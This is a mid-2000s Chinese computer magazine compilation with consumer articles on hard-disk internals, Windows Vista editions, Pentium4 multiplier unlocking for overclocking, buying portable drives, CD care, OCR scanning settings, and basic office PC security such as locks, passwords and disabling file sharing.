“这个没看过吧？它叫磁头组件（见图2），是硬盘中最精密的部件之一。它由读写磁头、传动手臂、传动轴三部分组成。磁头是硬盘技术中最重要和关键的一环，硬盘存取数据就靠它了！没有磁头，也就没有实际意义上的硬盘。磁头的作用就类似于在硬盘盘片上进行读写的“笔尖”，通过磁头在盘片上来回移动，将数据信息记录在硬盘内部特殊的介质上。现在这种磁头上实际上由多组磁头组合而成，一组叫写入磁头，它沿用了传统的磁感应磁头；另一组叫读取磁头，它应用了新型的MR磁头，即所谓的感应写、磁阻读，针对读写的不同特性分别进行优化，以达到最好的读/写性能。磁头加电后会在高速旋转的磁盘片表面移动，与盘片之间的间隙只有0.1～0.3μm，这样可以获得很好的数据传输率。”

硬盘在工作时，通过主轴马达的转动将用户需要存取的资料所在的扇区带到磁头下方，马达的转速越快，用户存取数据的时间也就越短。从这个意义上讲，主轴马达的转速在很大程度上决定了硬盘最终的速度。随着硬盘容量的扩大和速度的提高，马达的速度也在不断提升，现在硬盘容量在不断增大，硬盘的速度也在不断提高。随着硬盘转速的不断提高，同时也会带来诸如磨损加剧、温度升高、噪声增大等一系列负面问题。但是你所用的硬盘为什么工作时比较安静呢？那是因为它采用了用在精密机械工业上的液态轴承马达。这种技术与传统的滚珠轴承马达相比，一方面避免了与金属面的直接摩擦，将传统马达所带来的噪声及温度降至最低；另一方面，油膜可以有效地吸收外来的震动，使硬盘的抗震能力得到了提高！”

“小子，怎么样？这一下对硬盘的了解比较透彻了吧？以后不要用非法关机、突然断电等手段折腾它喽！”蓝精灵先生语重心长地对我交待道。

“嗯，蓝先生，我再把硬盘的内部构造理一下，你看对不对。硬盘内部由磁头、盘片、主轴、电机、接口及其它附件组成，其中磁头、盘片组件是构成硬盘的核心，它封装在硬盘的净化腔体内（见图3）。硬盘内有两个马达，分别是主轴马达和寻道马达，它们工作任务各不相同，而硬盘的噪声主要是由寻道马达发出来的。”



“说得好”，蓝先生拍手称好，“孺子可教啊！”蓝先生的手掌怎么拍我身上来了？睁眼看看，原来是父亲叫我吃饭呢，那刚才进入硬盘内部世界是怎么回事？难道只是南柯一梦？

(江苏 青玉案)

## Windows Vista 版本区别偷偷报

作为继 Windows XP 之后，微软力推的下一代操作系统，Windows Vista 担负着击败众多竞争者的使命。喜欢尝鲜的朋友可能已经从网上下载了 Windows Vista 的测试版并安装试用起来了。最终的 Windows Vista 会是什么样？仍像 Windows XP 那样分为 Home 和 Professional 版本吗？

### Windows Vista Starter Edition (Windows Vista 入门版)
仅针对低端市场的版本，相当于 Windows XP 的 Starter Edition，如果你对 Windows XP 的版本区别也有兴趣，可以看看本刊 2005 年第7期的《Windows XP 你到底有几件“马夹”》。官方透露的信息比较少，只是说限制了许多系统特性，并且只允许同时运行3个应用程序，不支持登录密码及快速用户切换。虽说微软称这个版本是为不发达国家及地区设计的，但从 Windows XP Starter Edition 的市场反应来看应该不会有太多人关注此版本。

### Windows Vista Home Basic Edition (Windows Vista 家用基本版)
这个版本类似 Windows XP 的 Home 版本，微软这次强调了其“家庭”特性，似乎想打破原来“Home 版本是 Professional 版本去掉若干功能”的观念。已经公布的特性有：防火墙、家长控制(不知这个功能是不是真能控制现在的孩子……)、安全中心防垃圾邮件/病毒/间谍软件、网络地图和 Windows 搜索(和 Google 卯上了……)、Movie Maker、图片库(一个新的组件，应该会和微软的图片预览、数码相机照片管理等功能紧密集成，进一步蚕食 ACDSee 等照片软件的市场)。

### Windows Vista Home Premium Edition (Windows Vista 家用增强版)
这个同样标称为 Home 的版本，功能却不同于 Windows XP 的 Home 版本，更确切地说，应该是对应原来的 Windows XP Media Center (媒体中心)，主要面向 PC 发烧级用户、多 PC 用户和笔记本用户。除了包含 Windows Vista Home Basic Edition 的所有功能外，又增加了 DVD 视频编辑、HDTV 支持、Wi-Fi 音频配置及漫游等与媒体相关的特性。

### Windows Vista Professional Edition (Windows Vista 专业版)
Windows Vista 的专业版本，官方提供的信息非常少，只是说针对商用消费者。从目前公布的数据来看无法获知 Windows Vista 的专业版是否包含家庭版的所有特性。已经确认的特性有：加密文件系统、可以加入域、能够建立 IIS Web 服务器。

### Windows Vista Small Business Edition (Windows Vista 小型商业版)
小型商业版，适用于非 IT 业员工的小型企业商务应用，具备的特性有：备份和卷影复制、可扩展的集中化服务器网络、PC 传真和扫描工具，可以升级。

### Windows Vista Enterprise Edition (Windows Vista 企业版)
企业版，针对企业级应用做了优化，集成 Virtual PC 虚拟机软件(光是这个特性恐怕就让许多人兴奋不已了)和多语言用户界面。主要面向企业决策者、IT 经理和员工。

### Windows Vista Ultimate Edition (Windows Vista 完极版)
微软官方称它为“微软迄今为止推出的最佳 PC 操作系统”，它具备 Home Premium 和 Professional 版本的所有功能，这个版本所具备的特性可能大多不在系统本身的功能，而是微软针对这个版本的系统所提供的网络服务。目前已经公布的报告指出，微软将为这个版本的用户提供特殊的游戏功能、P2P 交流、网络俱乐部等功能，以及免费的音乐、电影、娱乐软件的下载。

## 网络大补贴

-   1. 感受 Windows Vista 的美丽
网址：http://www.pconline.com.cn/pcedu/softnews/cs/0507/675806.html
说明：Windows Vista 官方图片公告，来看看究竟有多漂亮。
-   2. Windows Vista Beta1 最详细体验报告
网址：http://www.pconline.com.cn/pcedu/pingce/0507/678739.html
说明：对于这个陌生的操作系统的使用，恐怕你又会像当初从 Windows 98 升级到 Windows 2000/XP 时那样手足无措了，这份最详细的报告能够指导你熟悉这个系统。
-   3. 揭开 Windows Vista 的五大谜底
网址：http://searchwin2000.techtarget.com.cn/tips/334/2108334.shtml
说明：选择 64 位还是 32 位？以前的软件还能在 Windows Vista 上运行吗？现在谜底揭晓。
-   4. Windows Vista 硬件指南
网址：http://tech.sina.com.cn/s/2005-07-28/0922675754.shtml
说明：看看你的电脑硬件是否能满足 Windows Vista 的“大胃口”。
-   5. Windows Vista 服务优化攻略
网址：http://searchwin2000.techtarget.com.cn/tips/162/2088162.shtml
说明：如果你的硬件只是勉强能够支撑这个系统，那还是应该优化一下。

(LR)

## 打破 Intel Pentium4 倍频限制的最新超频选择

在过去很长的一段时间里，超频玩家对于 AMD 一直都是青睐有加。这其中的最大原因就是 AMD 系列处理器能够通过 CPU 表面的金桥破解倍频，这样一来就给了超频用户更大的自由度。这种状况直到去年才发生了彻底改变，AMD 采用了与 Intel 相类似的封装形式，可调节倍频的金桥“转移”到了 CPU 内部。再加上“超频能手”赛扬 D 的出现，超频玩家开始将注意力转移到了 Intel 平台。注意力转移之后的成果也是相当显著的，向来水火不侵的 Pentium4 处理器的倍频已经“惨遭”破解！

| Processor Number | Core Frequency (GHz) | Thermal Design Power (W) | Minimum Tc (°C) | Maximum Tc (°C) |
| :--- | :--- | :--- | :--- | :--- |
| 520 | 2.80 (PRB = 0) | 84 | 5 | See Table 5-3 and Figure 5-2 |
| 530 | 3 (PRB = 0) | 84 | 5 | See Table 5-3 and Figure 5-2 |
| 540 | 3.20 (PRB = 0) | 84 | 5 | See Table 5-3 and Figure 5-2 |
| 550 | 3.40 (PRB = 1) | 115 | 5 | See Table 5-2 and Figure 5-1 |
| 560 | 3.60 (PRB = 1) | 115 | 5 | See Table 5-2 and Figure 5-1 |



### 破解倍频、目的明确
长久以来，CPU 性能表现最为直观的就是 CPU 所具备的主频。所谓主频其实就是 CPU 内部核心工作的时钟频率，单位一般是 G 赫兹 (GHz)。这是我们在使用或购买电脑时都需要关心的一个参数，通常我们所接触的 Pentium4 2.8GHz 其实都是 CPU 的主频。对于同等级的 CPU 来说，主频越高，CPU 的速度就越快，整机的性能就越好。至于 CPU 的主频，则与前端总线频率和倍频这两大因素的关系最为密切。其计算公式为：CPU 主频 = 前端总线频率 /4 × 倍频数。由于 Pentium4 处理器的倍频一直都无法进行破解，所以超频玩家所要做的就是提高 CPU 的前端总线频率。只是主流 Pentium4 处理器的前端总线频率都已经达到了 800MHz，继续提高前端总线频率已经相当困难。除非 CPU 的倍频能够降低，否则很难实现巨大突破！



尤其是在搭配双通道 DDR2 667 内存之后，其测试成绩比采用 DDR2 533 内存的搭配有了更为明显的提升。



### 意义非凡、战果显著
从原来的 3.6GHz 变成现在的 3.72GHz，Pentium4 560 这款处理器在频率提升方面似乎并没有明显的战果。但是对于超频玩家来说，这种进步却具有了跨时代的意义。拥有华硕 P5AD2-E Premium 主板的用户完全可以将 Pentium4 560 的倍频提升至低于默认的 15 倍频甚至是 16 倍频，前端总线再次提升到 1066MHz 的成果就变得相当显著了，其性能表现也将获得更大的提升！

（小叮当）

### 华硕领头、其他跟进
目前能够实现 Pentium4 倍频破解的主板产品已经越来越多，最初只有华硕率先发布了可以破解 Pentium4 倍频的主板，紧接着技嘉、微星、升技等一线大厂也迅速跟进，先后发布了支持 Pentium4 倍频破解的主板。对于超频玩家来说，这绝对是一个振奋人心的消息。当然也有需要特别注意的地方，因为并不是每一款 Pentium4 处理器都可以破解倍频。目前比较可靠的资料证实，只有 PRB=1 的 Pentium4 550 和 Pentium4 560 这两款处理器可以调节倍频（如图 1）。

华硕 P5AD2-E Premium 主板的 BIOS 内部存在着“CPU Lock Free”选项（如图 2），将该选项设定为“Enable”之后就可以“骗过”Pentium4 破解倍频了。由于 Pentium4 处理器的倍频范围设定在 14 ~ 18 之间，所以 Pentium4 560 这款处理器就可以工作在 14 倍频之下，而不是默认的 18 倍频之下。这样一来，超频玩家就完成了超频之前的“降频”工作，其实际工作频率从默认的 3.6GHz 降到了 2.8GHz。只要 CPU 运行在较低倍频之下，前端总线频率就有望进行大幅度提升。在我们对 CPU 散热条件进一步加强之后，Pentium4 560 这款处理器的前端总线频率便可以从默认的 800MHz 提升 1066MHz（如图 3），CPU 的主频也可以从默认的 3.6GHz 提升至 3.72GHz。通过著名硬件网站测试的结果，我们可以看到破解倍频后的 Pentium4 处理器在性能上有了很大的提升。前端总线频率提高了 266MHz 之后，数据带宽也出现了很大的提升，各方面的测试成绩都出现了很大提升。

## 移动硬盘选购杂谈

随着数字化时代的不断发展，移动硬盘这个往昔属于中高端的产品，越来越为大众所熟悉和接受。不过移动硬盘购买也是个技术活儿，到底买原装还是组装，40GB 容量好还是 60GB 容量棒，转速和缓存容量有多大影响，这些问题都听我在这里为大家一一道来。

移动硬盘从砖头那么大的产品到可以放入口袋的产品，各种大小应有尽有，但这些规格从根本上来说都是移动硬盘中的硬盘部分来决定的。

常见的硬盘有 3.5 英寸和 2.5 英寸两种规格，3.5 英寸硬盘就是大家最常见的台式机硬盘。它的个头比较大，用来做移动硬盘，携带不是很方便，但是它也有优势，那就是容量大性能好，性价比高。而 2.5 英寸硬盘则多用在笔记本电脑上，采用这种硬盘的移动硬盘更为轻便，携带容易，是现在最流行的选择。

至于更小的采用 1.8 寸、1 寸乃至更小硬盘的移动硬盘，外观非常的小巧可爱，甚至可以放入衣兜或者作为装饰品，但是便携的代价就是容量较低，而且价格非常昂贵。

### 尺寸、原装和组装
在说原装和组装之前，我们先来看看移动硬盘的构成，从根本上来说移动硬盘就是“硬盘+硬盘盒”这样子构成的。移动硬盘组装和原装的概念和我们常见的兼容机与品牌机概念差不多。

从用户这边来说组装也就是自己买个硬盘盒，把硬盘塞进去就好，从厂商这边来说也就是简单的做“硬盘+硬盘盒”的组合，然后卖给用户。而原装产品，“硬盘+硬盘盒”就不是简单的组合了，在这里面还加入了很多数据保护、防震等多种功能和特殊设计。当然，还有一个区别，那就是品牌信誉与售后服务。

### 性能指标
移动硬盘也涉及缓存、转速等和性能有关的参数，甚至容量也是选购时主要考虑的因素之一。在容量上主流的选择是从 40GB 到 80GB 的轻薄类移动硬盘，40GB 的容量在 BT 下载风行的现在已经能满足不少需要使用移动硬盘的场合。而对于 20GB 等更低容量的移动硬盘，虽然价格便宜，但因为容量太小，现在已不是很多见了。而 80GB 甚至 100GB 的大容量移动硬盘，适合需要存储大量数据的朋友，不过价格也相对昂贵。

## 接口与供电

常见的移动硬盘接口分为 USB 和 IEEE1394a 两类，而 USB 接口是最常用的。但这里面又会细分为 Fullspeed 和 Highspeed 两类，前者就是 USB 1.1 接口，其接口传输速度只有 12Mb/s，传输 1GB 的数据需要超过 10 分钟的时间；已经是被淘汰的接口规范。

Highspeed 采用的是 USB 2.0 接口，它的理论传输速度最高可达 480Mb/s，也就是 Fullspeed 接口的 40 倍，这将大大缩短数据传输的时间。而 IEEE1394a 接口的理论传输速度是 400Mb/s，介于 Highspeed 和 Fullspeed 之间，但是此接口普及率远不及 USB 接口，多是苹果机(MAC)及专业用户才会选择。

供电问题不仅对产品的易用性有影响，和产品的寿命也有关系。一般 USB 接口对外只能提供 0.5A 的电流，2.5 英寸的笔记本硬盘，满负荷工作需要的电流大多在 1A 左右，USB 接口的供电明显不足。而 IEEE1394a 的接口可以提供 1.5A 左右的供电，基本能满足 2.5 英寸硬盘的需求。

供电不足主要有两个影响。首先是对性能的影响，没有足够的能源，硬盘就不可能正常运行，数据传输速度就大打折扣，即使采用的是日立 7K60 这样的高性能硬盘，也显示不出和中低端产品的区别。另一个影响就是对硬盘寿命的影响了，在工作中供电不足，往往会导致磁头臂经常性停顿，这有可能会使硬盘出现物理坏道。

## 防震和加密设计

原装的品牌移动硬盘在防震和加密设计等方面，比组装产品更优秀。和笔记本电脑一样，移动硬盘不少时间都是处于非静止状态的，不管硬盘是否在工作中，如果受到较大外力的冲击，硬盘的损坏就几乎成了必然。为了提高移动硬盘的自我保护能力，除了采用主动抗震保护以外，以及采取吸收震动能量方式来降低硬盘受损几率的被动式保护被广泛采用。这类被动式保护措施，主要是通过机械部件来实现保护措施，比如常见的气垫方式和自动滚轴平衡方式。

除了防震以外，散热和防静电设计也是低价产品节约成本的着眼点，静电是硬盘的杀手，而良好的散热对延长产品的寿命也有较大的帮助。一味追求外观的轻薄和美观，忽视了防震和散热，这是移动硬盘选购中很常见的误区。

加密设计是原装产品对移动硬盘附加增值的一种做法，具体实现的方法是五花八门，有些用户对移动硬盘的定位只是用它来“搬”数据，那么加密设计就不是很必要。但有的用户有资料保密的需求，那么这些设计还是很体贴的。

（阿柚蜜）

## 光盘应该如何保护？

我们可以做个实验：准备一张刻过的无用光盘，用刀在正面划去一块涂料，再放进光盘，你就会发现这张光盘的确出现问题。但如果只是在背面划上一道，则一般只是出现读取困难的现象。

## 从光盘的结构说起

如图所示，就是 CD-R 盘片的结构。我们用的一般压制 CD 和 CD-R 结构是有所不同的，一般 CD 最上层叫做 lacquer layer（涂料层），而 CD-R 叫做 upper label protective layer（保护层），不过两者的作用相同，都是用来印刷文字及图案的。最底层都为 polycarbonate layer（透明塑胶层），只是中间部分 CD-R 盘片多了一个 Photoreactive-dye layer（光反应染料层）。

从图中可以看到保护层的下面就是反射层，如果反射层被刮掉，CD-R 就会变成透明，无法反射激光，资料也就没办法读出来了。

而对于透明塑胶读取层，很容易留下小的刮痕，但这并不影响整个 CD-R 的资料读取，而且还有很多光盘修复用的磨砂膏，可以修复这些小的刮痕。加上现在在资料在刻录时都会添加记录侦测码，光驱也都有校验功能，只要刮痕不大，即便资料有问题，也会自动更正，或重新读取，直到读出正确数据为止。


## 光盘保养小技巧

那么应该如何保养这些脆弱的光盘呢？

- ① 如果光盘盒已经没有多余空间，可以使用纸套或 PP 袋来放光盘。不过要注意，由于纸套和光盘都暴露在空气中，难免会接触到灰尘，久而久之，纸套也变成了“砂纸”，会对光盘进行一定的磨损。所以最好将不经常使用的光盘放在纸套中。
- ② 如果是非要是叠在一起放，则建议采用一正，一反，一正，一反的放法，即让印有文字的那面朝内。当然读取层的保护同样重要，但你也不必担心两个读取层会挤在一起，CD-R 读取层在中间透明塑胶的位置有一圈突起，就是专门为了避免光盘磨损而设计的。
- ③ 如果你喜欢在光盘上贴标签，那么建议你改改这个毛病。因为贴坏了光盘的标签，很可能会破坏光盘的稳定性，在调整读取中更是容易损坏光盘及光驱。如果你必须要使用，则建议使用光盘专用标签。另外，还要注意，在撕掉标签时，一定要小心，不要破坏反射层及染料层。
- ④ 如果你用了一般的笔在 CD-R 上做记号，那要小心墨水会对保护层有不良的影响。为了安全，建议你在内圈没有储存资料的完全透明区做记录。
- ⑤ 除非是重要的资料或是音乐，否则不必使用很贵的 CD-R。
- ⑥ 有些盘片印刷精美，但购买时，还要确认光盘的刻录速度等参数。

（ABCD）

## 慧眼识英雌——提高 OCR 识别率

OCR(Optical Character Recognition)光学字符识别，是一种快捷、省力、高效的文字输入方法，可以极大地提高书报等传统平面媒体文字资料转换到电子媒体的工作效率。现在越来越多的单位、个人都在使用扫描仪和 OCR 软件来实现大批量文字的录入工作，可许多人都抱怨 OCR 软件太“弱智”，甚至彻底地抛弃了 OCR 软件，今天我为大家支几招，让你的 OCR 软件重新上岗，再展雄风。

## 扫描质量高 先要来硬的

OCR 软件识别文字“弱智”的绝大多数原因是由扫描仪扫描得到的图像质量太差，所以要提高 OCR 识别率，我们首先要从扫描仪抓起。

### 1. 牢固固定和彻底打扫扫描仪

有些人在使用扫描仪时图一时方便，对扫描仪固定不牢甚至让其倾斜着机身扫描，殊不知这时会影响到扫描仪的步进电机，这样一来扫描出来的图像的垂直分辨率倒大幅度降低。扫描仪尽量放到平稳的位置上，这样在电机运转时不会有额外负荷，以保证扫描仪垂直分辨率的理想输出。要扫描的图片一定要摆放在扫描起始线的中分线上，以最大限度地减少由于光学透镜导致的失真。扫描仪内部也要保持整洁，认真擦拭扫描镜面，可以先用玻璃清洁剂来擦拭一遍，然后再用柔软的干布将污渍擦干净，不能有明显的手印或灰尘，墨迹等，这样才能为你扫描到优良的图像打下坚实的基础。

### 2. 设置合适的分辨率

扫描分辨率（dpi，每英寸的像素数），它是影响 OCR 识别率的关键参数之一。扫描仪通常提供了可以进行设置的分辨率范围。随着扫描分辨率的提高，即每英寸像素点数的增多，其所表达的原图细节就更加丰富。对于被扫描的原始文本图像来说，随着扫描分辨率的提高，汉字的笔划就会更加接近原貌，各个笔划也能够比较好地被区分。许多人认为扫描仪使用的分辨率越高则图像质量越好，图像质量越好用 OCR 软件成功识别的机率越大。这种认识是错误的，分辨率太高，不但大大增加扫描时间，增大图像文件体积，更严重的是它会将一些不必要的“细节”扫描进来，如纸张上的麻点、网纹，如果纸张比较薄甚至会将纸张背面图像文字扫描进来，得到的图像反而不适合 OCR 软件识别，所以我们在扫描之前先要目测被扫描对象上字号大小，根据字号大小选择合适的分辨率。

### 小提示

如果希望根据字号大小选择合适的分辨率,请按下表:

| 字号 | 分辨率 |
| :--- | :--- |
| 6号或7号 | 400~600dpi |
| 普通5号 | 250~300dpi |
| 4号以上 | 150~200dpi |

扫描的时候使用300dpi的分辨率便能够满足一般的扫描应用(见图1),大家在使用过程中,可根据实际情况确定最佳分辨率,确定的原则是错误率低于3%,具体操作方法是OCR识别后产生的文本中的红色错字数量可以被接受。以不同扫描分辨率扫描所得到的文件体积大小是不同的,若扫描分辨率提高到原来的A倍,则文件体积会增长A×A倍。计算公式和差错率如下。



```
文件体积 = (水平尺寸×垂直尺寸×分辨率²) / 8
```

| 扫描分辨率 | 文本字数 | 扫描区域大小 | 文件长度(KB) | 错字数 | 错误率 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 50dpi | 175 | 5.97×1.87英寸 | 3 | 175 | 100% |
| 100dpi | 175 | 5.97×1.87英寸 | 14 | 65 | 37.14% |
| 150dpi | 175 | 5.97×1.87英寸 | 31 | 6 | 3.43% |
| 200dpi | 175 | 5.97×1.87英寸 | 57 | 1 | 0.57% |
| 300dpi | 175 | 5.97×1.87英寸 | 126 | 2 | 1.14% |
| 600dpi | 175 | 5.97×1.87英寸 | 504 | 1 | 0.57% |

### 小提示

被扫描纸张的字号如果印刷字迹比较模糊,或者笔画较多的识别文本,应适当提高扫描的分辨率不可少的。如果条件发生变化,例如原始文本的字号较小,则可以适当提高扫描分辨率,反之字号较大,则可适当降低扫描分辨率,扫描英文为主的文档时应加大扫描分辨率。

### 3. 设置扫描模式、亮度、对比度、

将要扫描的纸张正确放置到扫描仪上,不能倾斜就可以进行扫描了,扫描之前先要设置好扫描模式,因为我们要取得适合OCR软件识别的图像,所以这里我们要选择“黑白二色”扫描模式,切勿选择彩色模式。还要确定合适的亮度和对比度,你可以通过“放大预览”对文稿中的部分文字进行取样扫描,并针对取样结果进行更为细致的调节,调节工具是扫描仪工具内的“阈值”,它可以被认为是一条分界线,图像中分界线上面部分接近黑色的像素直接归于黑,而下面部分接近白的像素直接归于白。如果“阈值”中偏向黑色部分取多了,将出现汉字的笔划粗壮,笔划多的部分连成一片,严重影响识别率;如果“阈值”中偏向白色部分取多了,将出现汉字的笔划纤细,以至于出现断裂,正确识别汉字将不可能的,所以一定要设置好合适的阈值。

### 小提示

为防止扫描复制,许多学生用考试试卷都在背景上添加了大大的水印,一般这些水印颜色都较浅,学校老师在扫描此类试卷时将阈值降低,这样可以一定程度上消除水印影响。

除了扫描分辨率,扫描亮度也是影响OCR识别率的一个重要参数。准备输入计算机的文本看上去是白纸黑字,好像只有黑白两种颜色,但是经过扫描之后,它就变成了有多个灰度等级的图像。例如8位灰度级能表达256种灰度颜色,10位灰度级则能表达1024种灰度颜色。其中以代表白色的某个灰度级和代表黑色的某个灰度级为中心构成了两组数据,在灰度直方图上表现为两个“山峰”。OCR在识别汉字时就要求将这个“双峰”多灰度图像变为二值图像,调整亮度就是为了对图像进行二值化处理,也就是说在灰度区间[Lmin, Lmax]设定一个阈值(threshold)记为T,并且Lmin < T < Lmax,然后令图像中所有灰度值小于或等于T的像素为0(黑),所有灰度值大于T的像素为1(白),这样就完成了识别汉字的第一步工作。

调整扫描亮度也即调整阈值T,其意义在于将一部分灰度等级的像素归于黑,再将另一部分灰度等级的像素归于白。调整阈值T的直观效果是:如果黑色取多了,将出现汉字的笔划粗壮,笔划多的部分连成一片,严重影响识别率;如果白色取多了,将出现汉字的笔划纤细,以至于出现断裂,正确识别汉字也是不可能的。为了正确选择阈值,扫描仪常常提供了灰度直方图供用户调整扫描亮度。灰度直方图是对图像的所有像素的灰度分布按灰度值的大小显示其出现频度的统计图。横轴表示灰度值,纵轴表示频度。所谓频度,即具有某一灰度值的像素在图像中出现的次数。

### 小提示

阈值是扫描仪中的键,调节扫描的灰阶度,也就相当于对比度。通常情况下不要对阈值进行调整,只有有问题的时候才进行调整为好(这段文字也不能确定)。

对于原本就具有二值倾向的多灰度值图像来说,选择一个合适的阈值比较容易。具有二值倾向的图像在灰度直方图上呈现出两峰一谷的特征。这时若取谷底处的灰度值作为阈值T,一般可以得到较好的效果。很多扫描软件都会在对图像进行预览后自动选取一个直方图低谷处的值作为阈值。如果用此T作为阈值处理成的二值图像效果不佳,可以适当的修改T重新进行二值化。修改的原则是,若二值图像上失去的特征过多(如轮廓严重残缺等),则适当地增大T值;若二值图像上有较多的冗余信息时(如轮廓线太粗,噪音点较多等),则应适当的减小T值。这样做往往可以获得满足OCR识别要求的二值图像。

### 软硬兼施更有效

经过上面一番设置,我们就为OCR软件提供了良好的图像源了,就如同厨师炒菜,有了好的材料,才能做出香甜可口的饭菜,但“打铁还要自身硬”,对OCR软件进行一番调教也是必需的。

### 小提示

购买扫描仪时,附带的扫描软件中普遍都提供OCR识别软件,但是其识别率很难令人满意,所以一般应当购买和使用专业的OCR识别软件,如尚书的SH-OCR5.0等,这样效果会好一些见图2。



### 1. 让OCR软件终身学习

OCR软件之所以“弱智”,是因为你从来不肯花时间来教它如何适应你扫描得到的文稿。其实现在大多OCR软件都有学习功能。如果你发现,你的OCR软件总是对某些固定文字识别错误,这时就需要教OCR来学习一下了,在OCR软件内一般被称为“校对功能”,我们只要在软件中指定一次正确的识别结果,它便会牢记,以后就不会出现相同的识别错误了。

### 2. 简单化文稿内容

再聪明的OCR软件也不能正确识别出图文混排的文稿,如果你的文稿中含有图像,OCR软件便会将它们识别地一塌糊涂,这时我们就需要用鼠标圈选文档中的图像,然后按下Delete键将它们删除,同时文稿中的一些无用的杂点,也应尽量地用橡皮工具擦除。

### 3. 该手动时就手动

不要一味地让OCR软件自动识别文稿,尤其是排版比较复杂的文稿,出现分栏时,要手动设定辨识范围,而不要采用“自动切分”以保证识别结果连贯,以免出现前言不搭后语的情况;出现竖排版面时,注意点击编排格式按钮来更改识别模式以对应。

(蜗牛 小新)

## 安全无极限：办公电脑防卫“三重门”

在平时的工作中，我们的办公电脑里面总是存放了一些重要的，机密的资料，不希望随便被别人看到，因此一直以来很多人都在想方设法对电脑之中的数据进行“加密保护”。如果说我们的办公电脑只是在公司里面使用，那还比较好办，但万一你的办公电脑是一台Notebook，必须随身携带的话，那恐怕除了数据加密之外，你还要考虑一下如何从物理上面去“防盗安全”了，因为不排除是对手在故意偷窃你的办公电脑以获得重要的资料哦！

增加电脑安全性的方法又很多，这也关系到我们平时的安全使用电脑的习惯问题，下面就让我来给大家介绍一下，三种不同程度的电脑防卫技术吧：

### 第一重门：物理防卫（轻度）

所谓物理防卫，就是指给电脑加上锁（注意，不是数据锁，而是真锁）了，那样即便你的笔记本被偷了，或者有人想动你的PC里面硬盘的主意，至少他们也不会立刻得逞。而这些“电脑锁”主要有两种，分别是机箱锁和笔记本线锁。



机箱锁：机箱锁现在十分流行，主要是那些大学生们来使用，因为他们的电脑总是放在宿舍。机箱锁其实就是给机箱的盖子加上一把锁（见图1），当你的机箱锁锁上之后，就算别人拧开你的机箱里面所有的螺丝，也是无法打开你的机箱的。这样就算别人想打你机箱里面配件的主意，除非他将整个机箱搬走，否则的话是无计可施的，对于办公室而言，机箱锁还可以当做封条使用，防止员工私自改动机器的硬件配置。

笔记本线锁：和体积庞大的台式机相比，笔记本要轻巧得多了，因此就算你打不开笔记本的内部，别人同样可以轻松地把你的整台笔记本都搬走。这种情况相信那些经常在公众场合办公的朋友（譬如说在外开会）都会有体会。笔记本线锁的作用就是把笔记本牢牢地固定在位置上无法拿走；虽然这种锁不是什么很强力的安全锁，但再胆大的小偷恐怕也不敢在众目睽睽之下撬锁的（见图2）。



### 第二重门：软件防卫（中度）

物理防卫虽然有效，但只是一时之举，万一还是让对方得逞了的话，你的数据就赤裸裸地摆在别人面前了。而且有时候可能别人只是用鼠标点击几下就可以看到你的机密了，因此我们在物理防卫的基础上还应该进行软件防卫。所谓软件防卫，就是说利用一些操作系统里面已有的，或者依靠一些第三方的软件来实现的简单加密功能，相信很多朋友都会使用屏幕保护密码或者系统挂起，这种就是所谓的软件防卫了。也许你不知道，软件防卫其实还有很多种的哦！

- 1. BIOS密码：不让人家开机，这样就无法偷取你的资料了。最简单的方法就是设置开机密码。只要开机的时候按住“DELETE”键，系统就会进入BIOS里面，大家找到“PASSWORD”的选项之后，设置一个密码就OK了。值得一提的是，设置好了密码之后，通常我们还需要更改密码的询问方式，一般来说询问方式有两种，一种是“Setup”，一种是“Always”。前者只是进入BIOS的时候提示密码，而后者则是每次开机都要输入密码，否则不会启动哦。
- 2. 锁屏密码：当你上班的时候有事要离开座位，但是又不希望路过的人看到你的桌面的话，这时候你就可以把屏幕锁住，让别人什么也看不见。现在我们大多数都用上Windows XP系统了，要锁住Windows XP的屏幕，只要打开“开始”菜单，然后选择下面的“注销”，在弹出窗口之中选择“切换用户”，这样系统就会回到用户登录界面，别人要登录你的系统必须输入你的用户密码了。如果你用的是别的操作系统，或者你希望用更快捷的方式锁定屏幕，可以用快捷键“Windows+L”，Windows键就是键盘上有微软图标那个，只要一按这个，系统屏幕立刻就会被锁住了。
- 3. 新建用户密码：Windows XP有一个很特别的地方，那就是你安装完成之后新建的登录用户是没有密码的！不少人为了图方便或者说是干脆忘记了，系统里面都没有密码！这时候我们就需要帮我们的用户加上密码了。给Windows XP用户加密码有两个方法。第一种是点击“开始→控制面板→用户账户”，然后点击你想创建密码的账号，出现图3的窗口。在这里我们点击“创建密码”即可，以后每次登录系统，或者锁定屏幕之后要恢复，都必须输入你的用户密码。另外一种方法就是在“我的电脑”上面点击鼠标右键，然后选择“管理”，出现“计算机管理”窗口之后，在左边的目录树里面展开“本地用户和组”，然后选择“用户”，此时在右边的窗口之中就会显示系统之中的所有用户。最后在想要创建密码的用户名上面点击鼠标右键，选择“设置密码”即可。



- 4. 屏保密码：屏幕保护是很多朋友都喜欢用的，不过如果你以为自己走开之后，屏幕保护能够让别人看不见你的桌面，那你就错了。碰上别有用心的人，只要动动鼠标，你的桌面还是会乖乖显示出来，这时候我们可以给屏保设置一个密码。在桌面上面点击鼠标右键，然后选择“属性”里面的“屏幕保护程序”，我们就可以看到图4的窗口了。只要把“在恢复时使用密码保护”的选项勾上，那么就相当于锁住屏幕的作用了，非常方便。



- 5. 关闭共享后门：有时候我们不能把全部注意力集中在“明处”，有些人会利用“暗处”来对我们的电脑资料下手，“共享文件夹”就是一个最大的“后门”。有时候你可能将某些重要资料共享出来让上司查阅，但是如果同处一个办公网络，很可能别人就会“找上门”了，万一你用的是无线网络，危险性就更加高了。因此在没有必要的时候，我们要把电脑的共享关闭。首先要看看自己的电脑之中究竟有什么被共享出来，方法很简单，譬如你的机器名是sfman，那么我们可以在IE浏览器里面直接输入\sfman，这样就可以看到自己共享出来的目录了，一般来说没有共享目录的人只有“打印机和传真”选项。如果你有共享目录，或者被别人偷偷打开了共享，你就可以用下面的方法去关闭共享：打开资源管理器，然后打开被共享出来的文件夹或者磁盘的上一层目录，在被共享的资源上面点击鼠标右键，选择“共享和安全”，然后在弹出窗口之中把“允许网络用户更改我的文件”或者“在网络上共享这个文件夹”的选项去掉，这样你的共享后门就会被封堵住了。
